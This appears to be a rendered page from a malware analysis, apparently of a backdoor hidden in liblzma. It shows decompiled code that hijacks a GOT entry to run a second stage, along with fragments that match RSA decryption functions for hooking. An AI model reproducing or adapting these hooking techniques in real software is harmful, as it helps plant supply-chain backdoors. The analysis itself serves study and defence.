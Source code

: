 ----
Function backdoor_init (0xA7849)

```c
__int64 backdoor_init(rootkit_ctx *ctx, DWORD *prev_got_ptr)
{
  _DWORD *v2;
  __int64 runtime_offset;
  bool is_cpuid_got_zero;
  void *cpuid_got_ptr;
  __int64 got_value;
  _QWORD *cpuid_got_ptr_1;

  ctx->self = ctx;
  // store data before overwrite
  backdoor_ctx_save(ctx);
  ctx->prev_got_ptr = ctx->got_ptr;
  runtime_offset = ctx->head - ctx->self;
  ctx->runtime_offset = runtime_offset;
  is_cpuid_got_zero = (char *)*(&Llzma_block_buffer_decode_0 + 1) + runtime_offset == 0LL;
  cpuid_got_ptr = (char *)*(&Llzma_block_buffer_decode_0 + 1) + runtime_offset;
  ctx->got_ptr = cpuid_got_ptr;
  if ( !is_cpuid_got_zero )
  {
    cpuid_got_ptr_1 = cpuid_got_ptr;
    got_value = *(QWORD *)cpuid_got_ptr;
    // replace with Llzma_delta_props_encoder (backdoor_init_stage2)
    *(QWORD *)cpuid_got_ptr = (char *)*(&Llzma_block_buffer_decode_0 + 2) + runtime_offset;
    // this calls Llzma_delta_props_encoder due to the GOT overwrite
    runtime_offset = cpuid((unsigned int)ctx, prev_got_ptr, cpuid_got_ptr, &Llzma_block_buffer_decode_0, v2);
    // restore original
    *cpuid_got_ptr_1 = got_value;
  }
  return runtime_offset;
}
```
----

##### Function Name matching (function 0x28C0)
```c
str_id = table_get(a6, 0LL);
...
if ( str_id == STR_RSA_public_decrypt_ && v11 )
...
else if ( v13 && str_id == STR_EVP_PKEY_set__RSA_ )
...
else if (str_id != STR_RSA_get__key_ || !v17 )
```

##### Hidden calls (via `lzma_alloc`)
`lzma_alloc` has the following prototype:
```c
extern void * lzma_alloc (size_t size , const lzma_allocator * allocator )
```
